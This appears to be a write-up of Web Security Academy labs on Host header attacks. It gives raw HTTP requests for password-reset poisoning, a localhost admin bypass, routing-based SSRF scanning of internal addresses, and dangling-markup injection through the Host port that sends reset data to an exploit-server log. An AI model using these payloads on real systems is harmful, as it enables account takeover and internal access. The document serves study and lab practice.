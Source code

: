 ### Basic password reset poisoning

```
POST /forgot-password HTTP/1.1
Host: exploit-0af700b604e80d8ec16cb94001f500a7.exploit-server.net/exploit
```

### Host header authentication bypass

Admin interface only available to local users

```
GET /admin HTTP/1.1
Host: localhost
```

### Routing-based SSRF

```
GET /admin HTTP/1.1
Host: 192.168.0.§0§
Cookie: _lab=47%7cMC0CFC%2b46kgEe%2bmzEi8f%2bW%2fCfWv1tH3ZAhUAhVN1G1LfV0mbRmBkJW5af6ha3QjGrSConbKCocZaq4tX4FzgGO%2bITd3GLa1Ai3IO%2b5qx65rId3Ypj3412fGPmpfELkkasP8xOuDJNHYegCEwBblL2IvYf%2fHVUa8PFuTkYY%2bTdMn0UBMT; session=Esb1JmRA37qVAuxdxbEmxJbvQ9SXA5JO
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3e00e804fa64edc0ba97ff00390002.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```

<img width="947" alt="image" src="https://user-images.githubusercontent.com/56427824/195255259-fe32f0f1-0294-4400-80b3-72e5aa45fd06.png">

### SSRF via flawed request parsing

```
GET https://0a120016040de15ac048158900c10055.web-security-academy.net/admin HTTP/1.1
Host: 192.168.0.§0§
Cookie: _lab=46%7cMCwCFDkppp%2bS7RgnTeg%2bQyqH3hcVM4ZiAhQxyrOv6ExHmS5HdCZidC3EbgkslqyXiAZ9xfB0M6LrCBvIwdEtp0VrN2QM06BRkNqE4hoD%2fLqYtyfj3CGNAD0HjgOg0BvFnm7zCDPninlduOmYMF1kosV9LuekJppeLpksioE8997OWUE%3d; session=hUrxxiLiHUMfxrmLAysscxWfLWZdFyVX
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```

<img width="944" alt="image" src="https://user-images.githubusercontent.com/56427824/195256730-10fbcc25-0eb5-4e51-8735-5dbf8cc0ac87.png">

###

Realise that you cannot really change the host header hostname... but what about the port?

```
POST /forgot-password HTTP/1.1
Host: 0a51001f0325f795c05685a400c900f4.web-security-academy.net:801
```

```
POST /forgot-password HTTP/1.1
Host: 0a51001f0325f795c05685a400c900f4.web-security-academy.net:asd
```

```
POST /forgot-password HTTP/1.1
Host: 0a51001f0325f795c05685a400c900f4.web-security-academy.net:<a>click me</a>

href="https://0a51001f0325f795c05685a400c900f4.web-security-academy.net:<a>click me</a>/login" <- how it looks like in email client
```

```
POST /forgot-password HTTP/1.1
Host: 0a51001f0325f795c05685a400c900f4.web-security-academy.net:"><a>click me</a>

href="https://0a51001f0325f795c05685a400c900f4.web-security-academy.net:"><a>click me</a>/login" <- how it looks like in email client, not working, fuzz it with special characters 
```

```
POST /forgot-password HTTP/1.1
Host: 0a51001f0325f795c05685a400c900f4.web-security-academy.net:<>/'\#"><a>click me</a> <- works!
```

```
POST /forgot-password HTTP/1.1
Host: 0a51001f0325f795c05685a400c900f4.web-security-academy.net:<>/'\#"><a href=https://exploit-0afc008c03c1f7d2c094853501de007f.exploit-server.net/log >click me</a> <- works!
```

ANSWER: 

AV in email scanner triggers the request? ihni, guessing

```
POST /forgot-password HTTP/1.1
Host: 0a51001f0325f795c05685a400c900f4.web-security-academy.net:'<a href="https://exploit-0afc008c03c1f7d2c094853501de007f.exploit-server.net/?
```


